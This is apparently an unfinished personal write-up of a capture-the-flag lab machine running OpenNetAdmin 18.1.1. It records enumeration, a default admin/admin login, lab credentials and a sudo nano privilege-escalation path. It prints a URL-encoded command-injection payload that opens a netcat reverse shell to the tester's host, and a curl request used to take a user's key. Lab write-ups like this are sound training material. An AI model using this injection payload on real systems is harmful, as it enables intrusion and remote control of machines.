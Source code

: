 # Machine #[NUMBER] [NAME]  


## Nmap Results  
  <img src="https://nmap.org/images/nmap-logo-256x256.png">   

* Just a web service and ssh.



<br/><br/>

## Banner Grabbing of Services  
 * Didn't find much


<br/><br/>

## Searchsploit
  <img src="https://www.offensive-security.com/wp-content/uploads/2020/05/SearchSploit-1.png" width=400 height=200>   



<br/><br/>  

## Gobustering Stuff  

  <img src="https://cdn.akamai.steamstatic.com/steam/apps/1092880/capsule_616x353.jpg?t=1605640630" width=400 height=200>  

* In this path `http://10.129.170.143/artwork/` found a website.
* I will try and gobuster the previous path see what I get.

<br/><br/>


## Thinking Out Loud   

  <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQr4hzX6KoRN5PjPJjy8QC43K0T-CoXZHawDIxG4jCa9aMD1K8Vl3vhpG2a2OVbiy-i93c&usqp=CAU" width=200 height=200>  

* The root opens the default page for Apache.  
* In the website I found "Arcwork" I found a form that when the button is pressed in it it sends a post request but without the input which I think means it's as useful as a bag of chips to break the website.  
* The form in `/sierra` sends parameters in the post which means it might be exploitable in a way MAYBE. In this path `/sierra/contact_process.php` the post takes place.  
* Emails I found  
  * contact@sierracompany.com (In the sierra website).
  * hello@mydomain.com (Arcwork website).  
* In the last website `/music` I found something interesting when I pressed "login" it opened this url `http://10.129.170.143/ona/` which opened something weird called openNetAdmin which seems like it's obviously key to solving the machine.
* Found a dns domain. I'm gonna try and put it in hosts.
* OpenNetAdmin version ==> OpenNetAdmin - v18.1.1.
* I was able to login as "admin/admin" in the opennetadmin.
* It seems that the exploit I found for this version of openNetAdmin takes advantage of the "IP Calculator".  

xajax=window_submit&xajaxr=1643382750871&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204444%20%3E%2Ftmp%2Ff&xajaxargs[]=ping%22%20%22http%3A%2F%2F10.129.170.143%2Fona%2F  

* Found a credential for the database 
```console
 'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!', // turns out this is jimmy's password
        'db_database' => 'ona_default',
        'db_debug' => false,
```

* Found another password for jimmy `Revealed` it was hashed with sha 512 and I was able to crack it easily anyway what do I need it for?  

* `/etc/sudoers.d/joanna:joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv`  


```
lrwxrwxrwx 1 root root 32 Nov 22  2019 /etc/apache2/sites-enabled/internal.conf -> ../sites-available/internal.conf                                                 
    ServerName internal.openadmin.htb
lrwxrwxrwx 1 root root 33 Nov 22  2019 /etc/apache2/sites-enabled/openadmin.conf -> ../sites-available/openadmin.conf                                               
        ServerName openadmin.htb
```  

* I was able to get joanna's key by executing this 
```console
curl -X POST -F 'username=jimmy' -F 'password=Revealed' -F 'login=' http://localhost:52846/main.php
```
But I'm not able to use the passphrase yettt which is frustrating and a reverse shell is not working.

<br/><br/>



## How Did I Solve the Machine 

   <img src="https://images.lifesizecustomcutouts.com/image/cache/catalog/febProds21/SP000081-500x500.png" width=200 height=200>   


     

## Where I Got Stuck?  

   

## What Did I learn from this Machine?  

* OpenNetAdmin  
  <blockquote>
  OpenNetAdmin is a Network Management application that provides a database of managed inventory of IPs, subnets, and hosts in a network with a centralized AJAX web interface. The application is an Opensource written in PHP; you can view the source code on GitHub “ONA Project.”
  </blockquote>



## Writeups   

### ippsec  

* He checked the source of the page to check what is the type of the content management system that is being used.  
* Carousel is a popular wordpress plugin.  
* He made an HTML page with `python -m http.server 80` to run the exploit that is expecting us to "make an html page".  
* Don't jump straight into a dangerous command with command injection, try a simple, useless one first.  
* 

<!-- tagsss -->